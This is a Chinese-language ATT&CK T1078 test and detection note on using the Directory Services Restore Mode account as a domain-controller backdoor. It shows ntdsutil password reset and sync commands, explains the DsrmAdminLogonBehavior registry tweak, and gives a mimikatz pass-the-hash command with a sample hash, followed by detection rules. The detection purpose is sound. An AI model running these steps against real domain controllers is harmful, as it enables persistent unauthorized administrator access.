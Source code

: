 # T1078-win-DSRM密码重置

## 来自ATT&CK的描述

攻击者可能会使用凭据访问技术窃取特定用户或服务账号的凭据，或者在侦察过程的早期通过社会工程捕获凭据以获得首次访问权限。

攻击者可以使用三种账号：默认账号、本地账号和域账号。默认账号是操作系统的内置账号，例如Windows系统上的访客或管理员账号，或者其他类型系统、软件或设备上的默认工厂/提供商账号。本地账号是组织配置给用户、远程支持或服务的账号，或单个系统/服务的管理账号。域账号是AD-DS（活动目录域服务）管理的账号，其访问和权限在域内不同系统和服务之间配置。域账号可以涵盖用户、管理员和服务。

## 测试案例

目录还原模式账户

每一个域控制器都有一个本地管理员账户其实也就是所谓的目录服务还原模式（DSRM）账户。DSRM的密码是在DC安装的时候就需要设置，并且很少会被重置。修改DSRM密码最基本的方法是在DC上运行ntdsutil命令行工具。

在安装了KB961320补丁的Windows Server 2008以及之后发布的Windows Server中，开始支持在DC上使用指定的域帐户同步DSRM密码。但是这个同步操作是一次性的，也就是说你必须在每次更改了DSRM密码后进行一次密码同步。

如果一个攻击者可以得到运行在Windows Server 2008 R2 或 Windows Server 2012 R2（DsrmAdminLogonBehavior 的值为 2）的域控的DSRM账户密码或者HASH值，那么DSRM账户就可以被用于“HASH传递攻击”方式。这就使得攻击者可以保持域控制器的管理员权限，即使所有的域用户和计算机密码被修改了。

## 检测日志

windows安全日志

## 测试复现

### 0x00 更改DSRM账号密码

执行以下命令(DC上)

```dos
NTDSUTIL
set dsrm password
reset password on server null
<PASSWORD>
Q
Q
```

实际测试结果：

```dos
C:\Users\Administrator>ntdsutil
ntdsutil: set dsrm password
重置 DSRM 管理员密码: reset password on server null
请键入 DS 还原模式 Administrator 帐户的密码: *********
请确认新密码: *********
密码设置成功。

重置 DSRM 管理员密码: Q
ntdsutil: Q
```

### 0x01 使用域帐户同步DSRM账户密码

使用域管理员帐户登录DC后，启动一个“取得管理员权限”的CMD，运行如下命令行：

```dos
NTDSUTIL
SET DSRM PASSWORD
SYNC FROM DOMAIN ACCOUNT <your user here>
Q
Q
```

### 0x02 使用DSRM作为活动目录的后门

有关DSRM密码的一个有意思的事情是这个DSRM账户实际上就是“Administrator”。这就意味着一旦攻击者有了DC的DSRM密码，就有可能使用这个账户通过网络作为一个本地管理员登录到DC上。

我们可以使用法国佬神器（mimikatz）来确认DSRM账号就是本地管理员帐户。首先，使用一个已知的密码创建一个AD用户（xiaomi），之后，使用这个域账户进行DSRM密码同步操作。

具体操作命令可以参考0x01命令

关于更多使用DSRM作为活动目录后门的用法可以参考Freebuf文中提到方法。

### 0x03 使用DSRM凭证的一种更为高级的方法

正如0x02所述，DSRM账户实际上是一个可用的本地管理员账户，并且可以通过网络验证并登录到DC中，当然，**要确保DsrmAdminLogonBehavior注册表键的值为 2**。另外，攻击者并不需要知道DSRM账户的真实密码，只需要知道这个账户的HASH值。这就意味着一旦攻击者有了DSRM账户的HASH值，就可以通过网络使用“HASH传递攻击”方式，并以一个管理员的身份访问DC。这个方法在Windows Server 2008 R2 和Windows Server 2012 R2的域控中已经测试成功了。

使用法国佬神器（mimikatz）执行如下命令行：

```dos
Mimikatz “privilege::debug” “sekurlsa::pth /domain:xiaomi.org /user:administrator /ntlm:7c08d63a2f48f045971bc2236ed3f3ac” exit
```

注意的是：由于DSRM账户实际上是一个可用的本地管理员账户administrator，所以在此处，可以这么理解，攻击者知道DC本地账户administrator的NTML HASH，使用mimikatz进行HASH传递进行攻击，达到以DC本地账户administrator的密码进行登录访问DC。

## 测试留痕

windows 安全日志4794

## 检测规则/思路

1.监控与DSRM密码重置和使用相关的事件日志

  4794：试图设置目录服务还原模式管理员密码。

2.监控如下注册表位置的值，当值为 1 或 2时，应引起警示

```reg
  HKLM\System\CurrentControlSet\Control\Lsa\DSRMAdminLogonBehavior
```

## 参考推荐

MITRE-ATT&CK-T1078

<https://attack.mitre.org/techniques/T1078/>

域控权限持久化之DSRM

<https://www.freebuf.com/articles/system/80968.html>

巧用DSRM密码同步将域控权限持久化

<https://www.uedbox.com/post/10269/>
